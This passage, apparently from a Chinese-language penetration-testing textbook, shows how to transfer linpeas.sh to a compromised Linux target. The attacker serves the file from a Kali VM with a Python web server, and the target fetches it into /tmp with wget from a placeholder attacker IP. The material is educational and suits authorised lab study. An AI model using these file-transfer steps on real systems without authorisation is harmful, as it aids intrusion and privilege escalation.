 ## 文件传输

为了将**linpeas.sh**文件传输到我们的目标，我们需要在 Kali 虚拟机上搭建一个 Web 服务器。这个服务器将用来托管文件，以便我们可以在目标系统上下载它。可以通过以下步骤来完成：

1.  为了在 Kali 虚拟机上设置 Web 服务器，我们可以使用 **SimpleHTTPServer** Python 模块来提供二进制文件。可以通过在存储 **linpeas.sh** 二进制文件的目录中运行以下命令来完成：

    **sudo python -m SimpleHTTPServer 80**

    注意

    如果端口 **80** 已被占用，您还可以使用系统上的任何其他开放端口。

    另外，您还可以通过运行以下命令，利用 Python 3 的 **http.server** 模块：

    **sudo python3 -m http.server 80**

    正如以下截图所示，**SimpleHTTPServer** 将在 Kali 虚拟机 IP 地址的 **80** 端口上提供目录中的文件：

    ![图 10.10 – SimpleHTTPServer linpeas.sh    ](img/B17389_10_010.jpg)

    图 10.10 – SimpleHTTPServer linpeas.sh

1.  为了将 **linpeas.sh** 文件下载到目标系统，我们可以利用 **wget** 工具。然而，在下载二进制文件之前，我们需要导航到一个我们有读写权限的目录。在这种情况下，我们将导航到临时目录，如以下截图所示：![图 10.11 – Linux 临时目录    ](img/B17389_10_011.jpg)

    图 10.11 – Linux 临时目录

1.  现在，我们可以使用 **wget** 工具将文件从 Kali 虚拟机下载到目标系统。可以通过在目标系统上运行以下命令来完成：

    **wget http://<KALI-VM-IP>/linpeas.sh**

    上述命令的输出可以在以下截图中看到：

